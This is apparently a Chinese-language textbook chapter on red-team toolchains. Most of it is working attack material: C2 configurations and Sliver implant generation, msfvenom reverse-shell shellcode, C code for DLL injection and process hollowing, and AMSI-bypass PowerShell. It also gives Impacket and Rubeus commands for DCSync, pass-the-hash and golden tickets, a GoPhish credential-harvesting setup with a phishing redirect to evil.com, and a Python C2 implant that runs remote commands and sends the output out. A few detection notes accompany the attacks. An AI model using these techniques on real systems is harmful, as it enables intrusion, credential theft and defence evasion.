






## 26.2.4 红队工具链详解

> 工具链是红队的"武器库"，但真正的战斗力不来自工具本身，而来自对工具原理的深刻理解和在实战场景中的灵活运用。本节从C2框架选型、载荷生成与规避、AD攻击工具、社会工程工具链、基础设施自动化五个维度，系统梳理红队核心工具链。

### 一、工具链全景架构

红队工具链并非孤立的工具集合，而是一套覆盖攻击全生命周期的协同体系。从侦察到数据外泄，每个阶段都有对应的工具支撑。



**工具选型的核心原则**：

| 原则 | 说明 | 实战意义 |
|------|------|----------|
| 不可预测性 | 避免使用防御方已知签名的工具 | 减少被特征检测命中的概率 |
| 可定制性 | 工具应支持源码级修改 | 深度定制通信协议和行为模式 |
| 模块化设计 | 工具链各组件可灵活组合 | 适应不同场景需求 |
| 稳定可靠 | 在高压环境下不崩溃 | 红队演练中工具故障等同于暴露 |
| 审计友好 | 支持操作日志记录 | 演练结束后可复盘每个操作 |

---

### 二、C2框架选型与配置

C2（Command & Control）框架是红队的核心指挥中枢，负责载荷管理、通信加密、会话控制和任务分发。选型时需综合考虑隐蔽性、可扩展性、社区生态和许可证限制。

#### 2.1 Cobalt Strike — 行业标杆

Cobalt Strike是目前最成熟的商业C2框架，由HelpSystems（现Fortra）维护。其核心优势在于Beacon植入体的隐蔽性和Malleable C2配置文件的灵活性。

**核心架构**：



**Team Server启动与基础配置**：

```bash
# 基础启动命令格式
./teamserver <公网IP> <密码> <Malleable_C2_Profile>

# 实战启动示例（使用自定义配置文件）
./teamserver 203.0.113.50 s3cur3your_password! profiles/malleable-c2/google-update.profile

# 指定日志目录（便于演练复盘）
./teamserver 203.0.113.50 s3cur3your_password! profile.profile -logfile /var/log/cs/teamserver.log
```

**Malleable C2配置文件深度解析**：

Malleable C2是Cobalt Strike最强大的特性之一，允许红队完全控制Beacon与C2服务器之间的HTTP流量特征。

```text
# Malleable C2 Profile — 伪装为Google更新流量
# 文件名: google-update.profile

# ===== 全局设置 =====
set sample_name "Google Update Service";
set sleeptime "30000";        # 回连间隔30秒（平衡隐蔽性与实时性）
set jitter "20";              # 20%的随机抖动，避免固定周期特征
set maxdns "255";             # DNS模式下最大标签长度
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36";

# ===== HTTP GET 配置（Beacon拉取任务）=====
http-get {
    set uri "/google/update/check";
    set verb "GET";

    client {
        header "Accept" "*/*";
        header "Accept-Language" "en-US,en;q=0.9";
        header "Accept-Encoding" "gzip, deflate, br";

        metadata {
            base64;                              # Base64编码元数据
            prepend "session_token=";            # 前缀伪装为会话令牌
            header "Cookie";                     # 将数据放入Cookie头
        }
    }

    server {
        output {
            print;                               # 原样输出（可自定义变形）
        }
    }
}

# ===== HTTP POST 配置（Beacon回传数据）=====
http-post {
    set uri "/google/update/report";
    set verb "POST";

    client {
        id {
            str "Google-Update-Client";          # 伪装客户端标识
        }

        output {
            base64;                              # Base64编码
            print;
        }
    }

    server {
        output {
            print;
        }
    }
}
```

**关键配置项详解**：

| 配置项 | 作用 | 调优建议 |
|--------|------|----------|
| `sleeptime` | Beacon回连间隔 | 30s适合短期渗透，5-15min适合长期驻留 |
| `jitter` | 回连时间随机抖动 | 20-35%较自然，0%容易被周期检测捕获 |
| `uri` | 通信路径 | 应与目标环境常见URL模式一致 |
| `metadata` | 元数据编码方式 | 组合base64+prepend+header实现多层混淆 |
| `useragent` | HTTP用户代理 | 必须与目标环境的浏览器分布一致 |

#### 2.2 Sliver — 开源新锐

Sliver是由FoxIO开发的开源C2框架（MIT许可证），近年来迅速崛起，已成为Cobalt Strike的主要开源替代品。其核心优势在于原生支持多协议通信和自签名证书的自动化管理。

**安装与初始化**：

```bash
# 一键安装（Linux/macOS）
curl https://sliver.sh/install | sudo bash

# 或通过Go手动安装
go install github.com/BishopFox/sliver/client@latest

# 启动服务端（交互式控制台）
sliver-server
```

**载荷生成与多协议支持**：

```bash
# ===== mTLS植入体（最稳定）=====
generate --mtls <C2_IP> --os windows --arch amd64 \
    --save beacon.exe --name "SystemUpdate"

# ===== HTTPS植入体（绕过端口限制）=====
generate --https <domain.com> --os windows --arch amd64 \
    --save beacon.exe --name "WebHelper"

# ===== DNS植入体（最隐蔽但速度慢）=====
generate --dns <sub.domain.com> --os windows --arch amd64 \
    --save beacon.exe --name "DnsClient"

# ===== 混淆植入体（AntiVirus规避）=====
generate --mtls <IP> --os windows --arch amd64 \
    --obfuscate --poll-timeout 10000 \
    --save obfuscated.exe

# ===== 预生成监听器 =====
mtls --lhost <IP> --lport 8443          # mTLS监听器
http --lhost <domain> --lport 443       # HTTP监听器
dns --domain <domain> --lport 53        # DNS监听器
wg --lport 51820                         # WireGuard监听器（隧道模式）
```

**会话管理与任务执行**：

```bash
# 查看所有活跃会话
sessions

# 使用指定会话
use <session_id>

# 交互式Shell
interactive

# 执行系统命令
execute whoami /priv

# 文件操作
upload local_file.exe C:\Windows\Temp\remote.exe
download C:\Users\Admin\Documents\confidential.xlsx

# 进程注入
inject --process-id <PID> --path /tmp/payload.bin
```

**Sliver vs Cobalt Strike对比**：

| 维度 | Cobalt Strike | Sliver |
|------|---------------|--------|
| 许可证 | 商业（$5,900/年） | 开源（MIT） |
| 植入体检测率 | 较高（签名成熟） | 中等（生态较新） |
| 协议支持 | HTTP/SMB/DNS | HTTP/mTLS/DNS/WireGuard |
| 扩展性 | Aggressor Script（Sleep语言） | Go原生扩展/BOF支持 |
| 社区生态 | 成熟，大量Profile/脚本 | 快速增长，GitHub活跃 |
| 合规性 | 需要正版授权 | 无授权限制 |

#### 2.3 Brute Ratel — EDR规避专家

Brute Ratel是专为绕过现代EDR（如CrowdStrike、SentinelOne、Microsoft Defender for Endpoint）而设计的C2框架。其核心理念是"零特征"——载荷在运行时不产生可被端点检测的API调用模式。

**技术特点**：
- **自定义协议**：不使用标准HTTP/DNS，而是自定义的二进制协议
- **API哈希调用**：不直接调用Windows API，而是通过运行时哈希解析
- **内存执行**：所有操作在内存中完成，不留磁盘痕迹
- **反调试**：内置多层反调试和反沙箱机制
- **BOF扩展**：支持Beacon Object Files，可在Beacon进程内加载执行C/Go代码

---

### 三、载荷生成与规避技术

载荷（Payload）是红队攻击的"弹药"，其生成和规避技术直接决定了攻击能否突破防御。

#### 3.1 Shellcode生成技术

Shellcode是注入目标进程后直接执行的机器码，是所有高级植入体的基础。

```bash
# ===== 使用msfvenom生成原始Shellcode =====
# Windows x64反向TCP（基础款，易被检测）
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=203.0.113.50 LPORT=443 \
    -f raw -o shellcode_raw.bin

# 使用C#格式输出（便于嵌入.NET加载器）
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=203.0.113.50 LPORT=443 \
    -f csharp -o shellcode.cs

# 使用Python格式输出
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=203.0.113.50 LPORT=443 \
    -f python -o shellcode.py

# ===== 使用Donut将.NET程序转为Shellcode =====
# Donut是一款将.NET程序集转换为x86/x64 Shellcode的工具
# 支持AES加密和随机化，显著降低检测率
donut -i payload.exe -o payload.bin -a 2 \
    -c Test.Program -m Main \
    --entropy 1 \
    --runtime 4

# 参数说明：
#   -i  输入的.NET程序集
#   -o  输出的Shellcode文件
#   -a  架构（1=x86, 2=x64）
#   -c  类名
#   -m  方法名
#   --entropy  随机化级别（0=无, 1=最低随机化, 2=最佳）
#   --runtime  CLR版本（4=.NET 4.x, 2=.NET 2.0）

# ===== 使用SharpShooter生成多阶段载荷 =====
# SharpShooter支持多种投递方式和编码技术
python3 SharpShooter.py --payload sliver \
    --dns <sub.domain.com> \
    --shellcode shellcode.bin \
    --save output.hta
```

#### 3.2 进程注入技术

进程注入是将恶意代码注入合法进程内存中执行的技术，是绕过应用白名单和EDR检测的核心手段。

**基础DLL注入（CreateRemoteThread）**：

```c
// DLL注入原理：
// 1. 打开目标进程
// 2. 在目标进程内分配内存
// 3. 将DLL路径写入目标内存
// 4. 创建远程线程调用LoadLibrary

HANDLE hProcess = OpenProcess(
    PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE, targetPID
);

// 在目标进程分配可执行内存
LPVOID pRemoteBuf = VirtualAllocEx(
    hProcess,
    NULL,
    strlen(dllPath) + 1,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE  // RWX权限（容易被检测）
);

// 写入DLL路径
WriteProcessMemory(hProcess, pRemoteBuf, dllPath, 
    strlen(dllPath) + 1, NULL);

// 获取LoadLibraryA的地址（kernel32.dll在所有进程中地址相同）
FARPROC pLoadLibrary = GetProcAddress(
    GetModuleHandle("kernel32.dll"), 
    "LoadLibraryA"
);

// 创建远程线程执行LoadLibrary
CreateRemoteThread(hProcess, NULL, 0,
    (LPTHREAD_START_ROUTINE)pLoadLibrary,
    pRemoteBuf, 0, NULL);
```

> **检测要点**：基础DLL注入有明显的特征——目标进程加载了不匹配的DLL（如explorer.exe加载了C:\Temp\payload.dll），且内存权限为RWX（读-写-执行）。现代EDR通过监控`CreateRemoteThread`的调用和内存权限变化即可检测。

**进程镂空（Process Hollowing）**：

进程镂空通过创建合法进程的挂起副本，替换其内存中的代码后恢复执行，使恶意代码运行在合法进程名下。

```c
// 进程镂空的核心流程：
// 1. 以挂起状态创建合法进程（如svchost.exe）
// 2. 拉取并验证目标进程的PE头
// 3. 卸载原始内存映像
// 4. 重新映射恶意代码到原始入口点
// 5. 恢复线程上下文并执行

STARTUPINFO si = { sizeof(si) };
PROCESS_INFORMATION pi;
CreateProcess("C:\\Windows\\System32\\svchost.exe",
    NULL, NULL, NULL, FALSE, 
    CREATE_SUSPENDED,           // 挂起状态创建
    NULL, NULL, &si, &pi);

// 获取目标进程的上下文
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_FULL;
GetThreadContext(pi.hThread, &ctx);

// 获取PEB中的ImageBaseAddress
LPVOID pImageBase = (LPVOID)ctx.Rdx; // PEB->ImageBaseAddress

// 卸载原始内存
NtUnmapViewOfSection(pi.hProcess, pImageBase);

// 分配新内存并写入恶意PE
LPVOID pNewImage = VirtualAllocEx(pi.hProcess, pImageBase,
    imageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(pi.hProcess, pNewImage, maliciousPE, imageSize, NULL);

// 更新PEB中的ImageBaseAddress
ctx.Rax = (DWORD64)pNewImage;
SetThreadContext(pi.hThread, &ctx);

// 恢复执行
ResumeThread(pi.hThread);
```

**其他高级注入技术对比**：

| 技术 | 原理 | 检测难度 | 适用场景 |
|------|------|----------|----------|
| APC注入 | 向目标进程的APC队列投递代码 | 中 | Windows 10/11横向移动 |
| Thread Execution Hijacking | 挂起目标线程，替换其执行代码 | 中 | 需要目标进程已有线程 |
| Module Stomping | 加载合法DLL后覆写其内存 | 高 | 绕过DLL加载监控 |
| Early Bird | 利用进程创建早期阶段注入 | 高 | 需要精确时序控制 |
| Syscalls直接调用 | 绕过ntdll直接调用syscall号 | 高 | 绕过用户态Hook |

#### 3.3 AMSI绕过技术

AMSI（Antimalware Scan Interface）是Windows 10引入的应用层防恶意软件接口，PowerShell、VBScript、JavaScript等脚本引擎在执行前会通过AMSI传递脚本内容给防病毒引擎扫描。

**AMSI工作原理**：



**绕过方法1：内存补丁**：

```powershell
# 原理：通过反射修改AMSI DLL在内存中的函数实现
# 使AmsiScanBuffer()始终返回AMSI_RESULT_CLEAN

# 获取AMSI相关类型
$A = [Ref].Assembly.GetTypes() | Where-Object {
    $_.Name -like "*iUtils"
}
$B = $A.GetFields('NonPublic,Static') | Where-Object {
    $_.Name -like "*Context"
}

# 将上下文指针设为NULL，使扫描失效
[B]::SetValue($null, [IntPtr]0)
```

**绕过方法2：Patch AmsiInitFailed**：

```powershell
# 直接Patch AmsiInitFailed标志位
# AmsiInitFailed是amsi.dll中的一个布尔值
# 设为True后，所有后续扫描请求都会被跳过

$a=[Ref].Assembly.GetTypes()
ForEach($b in $a) {
    if ($b.Name -like "*iUtils") {
        $c = $b
    }
}
$E=[Reflection.BindingFlags]"NonPublic,Static"
$D=$c.GetFields($E)
ForEach($d in $D) {
    if ($d.Name -like "*Failed") {
        $d.SetValue($null, $True)
    }
}
```

> **防御视角**：AMSI绕过方法虽然众多，但EDR通过监控`amsi.dll`的内存修改（如检测VirtualProtect对AMSI内存页的权限变更）可以有效检测。防御方应在EDR策略中启用AMSI完整性监控。

---

### 四、Active Directory攻击工具

Active Directory是企业环境中最核心的身份认证和权限管理系统，也是红队渗透的关键目标。掌握了AD攻击工具，就掌握了企业内网的"钥匙"。

#### 4.1 BloodHound — 攻击路径可视化

BloodHound通过收集AD环境中的用户、组、计算机、GPO、ACL等关系数据，构建图数据库并分析从普通用户到Domain Admin的最短攻击路径。

```bash
# ===== SharpHound数据收集（Windows端执行）=====

# 收集所有数据（推荐，最全面）
SharpHound.exe -c All --domain corp.local

# 仅收集特定类型数据
SharpHound.exe -c ACL,GroupMembership,LocalAdmin --domain corp.local

# 使用JSON输出（便于自定义分析）
SharpHound.exe -c All --jsonfolder C:\Temp\bh-output

# 非域管账户的低权限收集（隐蔽模式）
SharpHound.exe -c LoggedOn,Session --stealth

# ===== BloodHound数据分析 =====

# 启动Neo4j图数据库
neo4j console

# 启动BloodHound GUI
bloodhound

# 在GUI中使用Cypher查询示例：
# 查找所有域管成员：
# MATCH (u:User)-[:MemberOf*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})
# RETURN u.name, u.samaccountname

# 查找从用户到域管的最短路径：
# MATCH p=shortestPath((u:User {name:"jsmith@CORP.LOCAL"})-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}))
# RETURN p

# 查找所有DCSync权限用户：
# MATCH p=(n)-[:DCSync|GetChanges|GetChangesAll*1..]->(d:Domain)
# RETURN p
```

**BloodHound攻击路径分析思路**：



#### 4.2 Impacket工具集 — Python渗透瑞士军刀

Impacket是SecureAuth开发的Python网络协议库，包含大量AD攻击工具，几乎覆盖了所有Kerberos攻击向量。

```bash
# ===== DCSync — 直接从域控提取凭据 =====
# 原理：模拟域控复制协议（MS-DRSR），无需登录域控即可获取所有哈希
# 要求：攻击者需具有"复制目录更改"权限（通常只有域管）

# 提取所有用户哈希
secretsdump.py CORP/administrator:Password123!@192.168.1.10

# 仅提取KRBTGT哈希（用于Golden Ticket）
secretsdump.py CORP/administrator:Password123!@192.168.1.10 -just-dc-user krbtgt

# 使用NTLM哈希进行DCSync（Pass-the-Hash）
secretsdump.py CORP/administrator -hashes :aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0@192.168.1.10

# ===== Pass-the-Hash — 哈希传递攻击 =====
# 直接使用NTLM哈希进行身份认证，无需明文密码

# 使用哈希执行远程命令
psexec.py CORP/administrator@192.168.1.20 -hashes :aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0

# WMI命令执行
wmiexec.py CORP/administrator@192.168.1.20 -hashes :<NT_HASH>

# SMB执行
smbexec.py CORP/administrator@192.168.1.20 -hashes :<NT_HASH>

# ===== Kerberoasting — 服务票据离线爆破 =====
# 原理：请求所有配置了SPN的服务账户的TGS票据，离线破解密码

# 通过密码认证发起Kerberoasting
GetUserSPNs.py CORP/jsmith:Password123! -request -outputfile kerberoast_hashes.txt

# 通过哈希认证发起
GetUserSPNs.py CORP/jsmith -hashes :<NT_HASH> -request

# ===== AS-REP Roasting — 无预认证用户攻击 =====
# 原理：某些用户设置了"不要求Kerberos预认证"，可直接请求其AS-REP并离线破解

# 使用字典攻击
GetNPUsers.py CORP/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# 使用哈希传递
GetNPUsers.py CORP/jsmith -hashes :<NT_HASH> -format hashcat

# ===== Golden Ticket — 金票制作 =====
# 原理：使用KRBTGT的NTLM哈希伪造TGT，可访问域内任意资源

ticketer.py -nthash <KRBTGT_NTLM_HASH> \
    -domain-sid S-1-5-21-xxx-xxx-xxx-xxx \
    -domain CORP \
    administrator

# 使用生成的票据
export KRB5CCNAME=administrator.ccache
psexec.py CORP/administrator@dc01.corp.local -k -no-pass
```

#### 4.3 Rubeus — Kerberos攻击瑞士军刀

Rubeus是GhostPack项目中的C# Kerberos攻击工具，在Windows环境中提供比Impacket更丰富的Kerberos攻击能力。

```powershell
# ===== Kerberoasting =====
# 请求所有可Kerberoast的服务账户TGS
Rubeus.exe kerberoast /outfile:kerberoast_hashes.txt /stats

# 仅针对特定SPN
Rubeus.exe kerberoast /user:svc_sql /outfile:sql_hash.txt

# 使用RC4降级（强制使用较弱的加密类型，更容易破解）
Rubeus.exe kerberoast /tgtdeleg /outfile:kerberoast_rc4.txt

# ===== AS-REP Roasting =====
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe asreproast /user:jsmith /outfile:asrep_jsmith.txt

# ===== 票据操作 =====
# 导入TGT进行Pass-the-Ticket
Rubeus.exe ptt /ticket:<BASE64_ENCODED_TICKET>

# 提取当前用户的TGT
Rubeus.exe triage        # 列出所有票据
Rubeus.exe dump          # 提取所有票据详情

# ===== S4U攻击链 =====
# 利用S4U（Service for User）协议模拟任意用户访问服务
Rubeus.exe s4u \
    /user:svc_web \
    /rc4:<SERVICE_ACCOUNT_HASH> \
    /impersonateuser:administrator \
    /msdsspn:cifs/fileserver01.corp.local \
    /ptt    # 直接注入票据
```

#### 4.4 AD攻击工具全景

| 工具 | 主要功能 | 平台 | 适用场景 |
|------|----------|------|----------|
| BloodHound/SharpHound | 攻击路径分析 | 跨平台 | 侦察阶段，全面了解AD结构 |
| Impacket | 协议级攻击（DCSync/PtH/Kerberos） | Python/Linux | 核心渗透阶段 |
| Rubeus | Kerberos攻击（票据操作/S4U） | Windows/.NET | 域内横向移动 |
| Mimikatz | 内存凭据提取/票据操作 | Windows | 本地提权后获取凭据 |
| PowerView | AD侦察和枚举 | PowerShell | 低权限环境信息收集 |
| Certipy | ADCS攻击（证书服务利用） | Python | AD CS环境攻击 |
| Coercer | NTLM强制认证（PetitPotam等） | Python | 强制DC暴露凭据 |
| Whisker | Shadow Credentials攻击 | C#/.NET | 模态账户利用 |

---

### 五、社会工程工具链

社会工程攻击是红队演练中最常用的初始访问向量，约占真实攻击的70%以上。

#### 5.1 鱼叉钓鱼邮件平台

| 工具 | 特点 | 适用场景 |
|------|------|----------|
| GoPhish | 开源，Web界面，模板丰富 | 批量钓鱼模拟 |
| Evilginx2 | 中间人代理，绕过2FA | 高级钓鱼（获取实时会话） |
| King Phisher | 功能丰富，支持自定义追踪 | 企业级钓鱼演练 |
| Social Engineering Toolkit (SET) | 集成多种攻击向量 | 快速原型测试 |

**GoPhish配置示例**：

```yaml
# GoPhish服务器配置
phish_server:
  listen_url: "https://mail-update.company.com"
  certificate: "/etc/ssl/certs/company.pem"
  certificate_key: "/etc/ssl/private/company.key"

# 邮件模板
email_template:
  subject: "紧急：IT部门要求立即更新您的账户凭据"
  from: "IT-Support@company.com"
  reply_to: "noreply@company.com"
  
# 落地页（伪装的登录页面）
landing_page:
  url: "https://mail-update.company.com/auth"
  redirect_url: "https://mail.company.com"  # 成功后重定向到真实页面
  capture_credentials: true
  capture_tokens: true
```

#### 5.2 二维码/链接短化攻击

```bash
# 使用自定义短链重定向（伪装为正常链接）
# 生成短链指向攻击者控制的重定向服务
curl -X POST https://short.link/api/create \
    -d "original=https://drive.google.com/file/d/REALDOC" \
    -d "redirect=https://evil.com/phishing" \
    -H "Authorization: Bearer <API_KEY>"
```

---

### 六、基础设施自动化

成熟的红队需要自动化的基础设施管理，包括C2域名的生命周期管理、通信加密、日志集中收集等。

#### 6.1 红队基础设施架构



**关键设计原则**：
- **多层重定向**：使用CDN和多级跳板隐藏C2服务器真实IP
- **域名轮换**：定期更换C2域名，避免被安全厂商标记
- **流量合法化**：通过CDN使C2流量看起来像正常Web访问
- **基础设施隔离**：不同攻击阶段使用不同基础设施，避免关联

#### 6.2 域名与SSL管理

```bash
# 使用Let's Encrypt自动获取SSL证书
certbot certonly --standalone -d update-service.com -d cdn-content.com

# 使用acme.sh自动化（支持DNS验证，无需暴露服务器）
acme.sh --issue -d *.update-service.com \
    --dns dns_cf \
    --dnssleep 30

# 自动续期（加入crontab）
0 0 1 * * acme.sh --renew -d *.update-service.com --force
```

---

### 七、工具链协同工作流

单个工具只是拼图的一块，真正的红队能力来自于工具链的协同运作。以下是典型的红队攻击工具链工作流：



---

### 八、常见误区与最佳实践

#### 误区一：依赖单一工具

**错误做法**：只使用Metasploit生成所有载荷。

**正确做法**：根据目标环境选择合适的工具组合。Metasploit的Meterpreter载荷签名已被几乎所有AV收录，应使用Sliver、Brute Ratel或自定义加载器。

#### 误区二：忽略操作安全（OPSEC）

**错误做法**：直接在攻击机上运行工具，不考虑流量特征和日志留存。

**正确做法**：
- 所有C2通信必须经过加密和重定向
- 工具执行前检查是否有调试器和沙箱环境
- 使用进程注入而非独立进程运行植入体
- 操作完成后清除所有痕迹

#### 误区三：不建立基础设施冗余

**错误做法**：只有一个C2服务器，没有备份方案。

**正确做法**：
- 至少准备2个C2服务器（一个主，一个备）
- 域名和SSL证书准备多套
- 确保可以快速切换基础设施

#### 误区四：载荷不做定制化

**错误做法**：使用默认参数的载荷直接投递。

**正确做法**：
- 修改所有可识别特征（编译时间、节名称、调试信息）
- 针对目标环境定制User-Agent和通信协议
- 使用环境感知载荷（检测沙箱和分析环境后才执行）

---

### 九、进阶：自定义工具开发

高级红队应具备自定义工具开发能力，以应对防御方的特征更新。

**自定义C2框架的核心组件**：

```python
# 极简C2客户端示例（仅用于演示原理）
import requests
import base64
import time
import random

C2_URL = "https://api.update-service.com/v2/tasks"
SESSION_ID = "abc123def456"

def heartbeat():
    """向C2服务器发送心跳并获取任务"""
    payload = {
        "session": SESSION_ID,
        "hostname": get_hostname(),
        "user": get_username()
    }
    resp = requests.post(C2_URL, json=payload, 
        headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"},
        verify=True,
        timeout=30
    )
    return resp.json()

def execute_command(cmd):
    """执行命令并返回结果"""
    import subprocess
    result = subprocess.run(cmd, shell=True, capture_output=True, timeout=30)
    return base64.b64encode(result.stdout + result.stderr).decode()

def main():
    while True:
        try:
            task = heartbeat()
            if task.get("command"):
                result = execute_command(task["command"])
                # 回传结果
                requests.post(f"{C2_URL}/result", 
                    json={"session": SESSION_ID, "output": result})
        except Exception:
            pass
        
        # 随机化心跳间隔
        jitter = random.randint(25, 35)
        time.sleep(jitter)

if __name__ == "__main__":
    main()
```

**自定义工具的优势**：
- 独特的通信签名，未被安全厂商收录
- 完全控制代码逻辑，可针对特定场景优化
- 即使泄露也不影响其他红队工具（因为是独立开发的）
